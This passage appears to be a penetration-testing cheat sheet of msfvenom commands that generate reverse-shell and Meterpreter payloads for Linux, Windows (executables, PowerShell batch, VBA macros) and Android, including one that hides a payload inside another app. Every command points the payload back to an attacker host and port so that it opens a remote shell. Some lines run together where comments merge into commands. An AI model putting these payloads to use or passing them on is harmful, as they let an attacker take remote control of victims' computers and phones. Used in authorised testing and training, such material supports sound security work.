 ```
    windows/x64/meterpreter/reverse_tcp                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Connect back to the attacker (Windows x64)
    windows/x64/meterpreter/reverse_http                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Tunnel communication over HTTP (Windows x64 wininet)
...

```

Here we will consider,

LHOST = 10.10.10.10, RHOST = 12.12.12.12, LPORT = 4545

# **Meterpreter Reverse Shells**

# **Linux Reverse Shells**

```
# x86
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf

# x64
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf
# x86 Reverse HTTP
$msfvenom -p linux/x86/meterpreter_reverse_http LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf# x64 Reverse HTTP
$msfvenom -p linux/x64/meterpreter_reverse_http LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf
```

# **Windows Reverse Shells**

```
# x86 normal
$msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe# x64 (CMD Single Stage)
$msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe# reverse HTTP
$msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe# reverse HTTPS
$msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe# Powershell Payload
$msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.10.10 LPORT=4545 > shell.bat
# Macro Payload
$msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f vba
```

# **Android Reverse Shells**

```
$msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 R > shell.apk# Android Embed Payload with another apk
$msfvenom -x anyApp.apk android/meterpreter/reverse_tcp lhost=10.10.10.10 lport=4545 -o shell.apk# Reverse HTTP
$msfvenom -p android/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4545 R > shell.apk# Reverse HTTPS
$msfvenom -p android/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=4545 R > shell.apk
```
